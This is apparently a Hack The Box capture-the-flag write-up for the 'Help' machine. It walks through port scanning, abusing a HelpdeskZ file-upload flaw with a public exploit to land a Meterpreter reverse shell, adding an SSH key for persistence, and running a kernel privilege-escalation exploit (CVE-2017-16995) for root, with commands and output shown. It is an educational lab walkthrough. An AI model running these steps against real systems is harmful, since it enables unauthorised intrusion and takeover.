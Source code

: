 ```yaml
---
layout: single
title: Help - Hack The Box
excerpt: "Help showed that a small programming mistake in a web application can introduce a critical security vulnerability. In this case, the PHP application errors out when uploading invalid extensions such as PHP files but it doesn't delete the file. Combined with a predictable filename generated based on MD5 of original file + epoch, we can get RCE."
date: 2019-06-08
classes: wide
header:
  teaser: /assets/images/htb-writeup-help/help_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - php  
  - apache
  - kernel exploit
  - helpdeskz
---
```


![](/assets/images/htb-writeup-help/help_logo.png)

Help showed that a small programming mistake in a web application can introduce a critical security vulnerability. In this case, the PHP application errors out when uploading invalid extensions such as PHP files but it doesn't delete the file. Combined with a predictable filename generated based on MD5 of original file + epoch, we can get RCE.

## Summary

- The HelpdeskZ PHP application allows .php file uploads to be stored even though there is an error message saying an invalid file has been uploaded. The PHP code doesn't clean up the invalid file that has been uploaded.
- We can't simply execute the uploaded file because the filename stored is obfuscated with the MD5 of the original file + the epoch timestamp. We can bruteforce those with an exploit already available.
- After getting a shell through RCE using the uploaded file, we execute a kernel exploit for CVE 2017-16995 and gain root access.

## Blog / Tools used

- [HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download](https://www.exploit-db.com/exploits/41200)
- [Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation](https://www.exploit-db.com/exploits/44298)

### Portscan

Not much running on there, it's a Linux box with few services running:

```
root@ragingunicorn:~# nmap -p- -sC -sV 10.10.10.121
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-19 19:02 EST
Nmap scan report for help.htb (10.10.10.121)
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web enumeration Node.js

![](/assets/images/htb-writeup-help/5.png)

There's some kind of Node.js application with graphql running on port 3000 but there's not much we can do with it.

Fails:
- Tried enumerating ednpoints with wfuzz, didn't find anything
- Once I had access to the server later on I was able to find the `graphql` endpoint but couldn't anything special with it other then querying user information which I already access to locally. The username/password shown here was not used anywhere on the box, just a distraction.

### Web enumeration Apache

The main page shows the default Ubuntu Apache page:

![](/assets/images/htb-writeup-help/1.png)

Next, when we run `gobuster` we find the `/support` URI:

```
# gobuster -w /usr/share/seclists/Discovery/Web-Content/big.txt -q -t 50 -u http://help.htb
/javascript (Status: 301)
/server-status (Status: 403)
/support (Status: 301)
```

This points to the **HelpdeskZ** application running on the server.

![](/assets/images/htb-writeup-help/2.png)

![](/assets/images/htb-writeup-help/3.png)

There's nothing in the Knowledge Base or News section, and we can't log in because we don't have credentials.

A quick search on Exploit-DB shows there's a vulnerability related to file uploads:

```
root@ragingunicorn:~# searchsploit helpdeskz
------------------------------------------------
 Exploit Title  |  Path  | (/usr/share/exploitdb/)
------------------------------------------------
HelpDeskZ 1.0.2 - Arbitrary File | exploits/php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File | exploits/php/webapps/41200.py
------------------------------------------------
Shellcodes: No Result
```

Exploit: `https://www.exploit-db.com/exploits/40300`

Basically, when we upload an attachment in a support ticket, the filename is obfuscated by doing an MD5 checksum of the filename concatenated with the epoch time. Because the code uses an integer for the epoch time (instead of a float), we can bruteforce the values by computing the MD5 value of every filename/time combination from the past few minutes and issue a GET request to the server to find if the filename is correct.

Looking the HelpdeskZ code, we can see that the upload folder is `/support/uploads/tickets/`, this will need to be passed to the exploit script to bruteforce the correct path.

![](/assets/images/htb-writeup-help/6.png)

![](/assets/images/htb-writeup-help/7.png)

We also need to make sure that the time on our computer is set to same time as the server, or close enough so the script will be able to cycle through the epoch time that matches the upload timestamp.

```
# date && curl -v --head http://help.htb/
Sun Jan 20 09:33:00 EST 2019
*   Trying 10.10.10.121...
* TCP_NODELAY set
* Connected to help.htb (10.10.10.121) port 80 (#0)
> HEAD / HTTP/1.1
> Host: help.htb
> User-Agent: curl/7.62.0
> Accept: */*
> 
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Sun, 20 Jan 2019 14:32:37 GMT
Date: Sun, 20 Jan 2019 14:32:37 GMT
```

For the reverse shell, we can can use a simple `php/meterpreter/reverse_tcp` shell and attach it to a support ticket:

![](/assets/images/htb-writeup-help/8.png)

![](/assets/images/htb-writeup-help/9.png)

It seems that some extensions are blacklisted or whitelisted on the server. But if we look at the source code on Github, we notice that even when we get an error message, there is no code that deletes the invalid file. The file is still saved on the server even if we get an error message.

![](/assets/images/htb-writeup-help/10.png)

To run the exploit, we just give it the upload location and the filename we uploaded:
```
# ./40300.py http://help.htb/support/uploads/tickets/ cmd.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
```

Once the script hits the right filename, the payload is triggered and we get a shell:
```
msf5 exploit(multi/handler) >
[*] Sending encoded stage (51106 bytes) to 10.10.10.121
[*] Meterpreter session 1 opened (10.10.14.23:5555 -> 10.10.10.121:35166) at 2019-01-20 09:35:45 -0500
```

Now we can grab the flag and write our SSH key to the user folder so we can log in by SSH after:
```
meterpreter > shell
Process 17138 created.
Channel 0 created.
cd /home/help
cat user.txt
bb8a7b....
mkdir .ssh
echo "ssh-rsa AAAAB3NzaC1y[...]hscPOtelvd root@ragingunicorn" >> .ssh/authorized_keys
```

### Privesc

Since this is a low point box, the priv esc is probably something simple such as kernel exploit.

We get a bunch of results when we run the [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)

```
[...]
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Tags: debian=9,fedora=25|26|27,[ ubuntu=14.04|16.04|17.04 ]
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
[...]
```

We can exploit CVE 2017-16995 to gain root access. According to the CVE's description:

> The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

Exploiting it was easy:

```
help@help:~$ cd /dev/shm
help@help:/dev/shm$ vi exp.c
help@help:/dev/shm$ gcc -o exp exp.c
help@help:/dev/shm$ ./exp
task_struct = ffff880039afd400
uidptr = ffff880036b75b04
spawning root shell
root@help:/dev/shm# cat /root/root.txt
b7fe60...
```
